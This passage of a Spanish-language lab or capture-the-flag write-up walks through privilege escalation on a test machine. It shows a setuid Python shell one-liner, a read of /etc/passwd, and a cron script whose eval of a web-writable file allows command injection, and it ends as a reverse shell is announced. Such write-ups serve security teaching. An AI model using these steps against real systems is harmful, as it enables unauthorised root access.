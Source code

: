 Usaremos este comando para intentar escalar privilegios aprovechando la capacidad que tenemos de cambiar el UID del proceso de `python`

~~~ python
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
~~~

Pero vemos que no podemos ejecutar esta operación por un conflicto de privilegios, quizá estamos omitiendo algún paso o no estamos revisando lo suficiente. 

### Enumerating Users

Veamos los usuarios existentes en esta máquina para ver si podemos aprovechar recursos antes de usar herramientas automatizadas para una enumeración completa

~~~ bash
www-data@c052d297dce2:/var/www/norc.labs$ $ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
kvzlx:x:1000:1000::/home/kvzlx:/bin/bash
~~~

Vemos un usuario `kvzlx`, veamos si podemos ver lo que hay en su directorio en `/home`

~~~ bash
www-data@c052d297dce2:/var/www/norc.labs$ cd /home
www-data@c052d297dce2:/home$ ls
kvzlx
www-data@c052d297dce2:/home$ ls kvzlx/ -a
.  ..  .bash_logout  .bashrc  .cron_script.sh  .profile
~~~


## Command Injection

Efectivamente podemos ver el contenido de este directorio, vemos un script de `bash`, este script hace lo siguiente

~~~ bash
www-data@c052d297dce2:/home/kvzlx$ cat .cron_script.sh 
#!/bin/bash
ENC_PASS=$(cat /var/www/html/.wp-encrypted.txt)
DECODED_PASS=$(echo $ENC_PASS | base64 -d)

echo $DECODED_PASS > /tmp/decoded.txt

eval "$DECODED_PASS"
~~~

- Recibe una contraseña del archivo `.wp-encrypted.txt`
- Decodifica la contraseña que está en `base64`
- Almacena la contraseña en `/tmp/decoded.txt`
- Ejecuta la contraseña como un comando con el comando `eval`

Como está ejecutando lo que recibe del archivo `.wp-encrypted.txt` bajo el directorio `/var/www/html`, sin sanitizar su contenido, podemos inyectar un comando a nivel de sistema en este archivo, enviemos una `shell` como el usuario que ejecuta este script a nuestra máquina atacante por el puerto `4444` 
